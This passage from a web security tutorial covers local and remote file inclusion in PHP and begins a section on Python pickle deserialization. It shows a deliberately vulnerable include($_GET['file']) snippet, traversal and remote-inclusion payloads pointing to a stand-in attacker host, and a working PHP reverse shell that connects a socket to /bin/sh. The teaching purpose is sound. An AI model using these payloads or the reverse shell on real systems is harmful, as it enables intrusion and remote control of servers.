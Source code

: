 Payload: `http://example.com/?file=../../uploads/evil.php`

## Remote File Inclusion

Exactly like in the case of **Local File Inclusion**, where the attacker is able to upload a reverse shell on the server, the **Remote File Inclusion** vulnerability lets the attacker include a remote file in the current web application and execute its contents. This file could be a reverse shell and give the attacker **full system control**.

```php
<?php
  /**
   * Get the filename from a GET input
   * Example - http://example.com/?file=index.php
   */
  $file = $_GET['file'];
  /**
   * Unsafely include the file
   * Example - index.php
   */
  include($file);
?>
```

Payload: `http://example.com/?file=http://attacker.example.com/evil.php`

**Note:** Even though some web servers run as **root** (**which is a very bad practice**), most of them run as a special user (**www-data**) which doesn’t have root privileges. This means that getting a reverse shell on a web server will grant you only the rights of the user running the website. In order to get root access on the machine, further **privilege escalation** methods should be employed, such as looking for **SUID binaries**. As this exceeds the scope of this session, you can read more here: [Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation).

### Example of a simple reverse shell in PHP:

```php
<?php
    $sock = fsockopen("127.0.0.1",1234);
    $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
# Python Insecure Deserialization / `pickle` module

We have looked at so many PHP vulnerabilities in this session, but you shouldn't be left with the impression that PHP is the only vulnerable language. In this section we will approach an insecure object deserialization in a Python web application.

## Python `pickle`

In Python, the `pickle` module lets you serialize and deserialize data. Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.
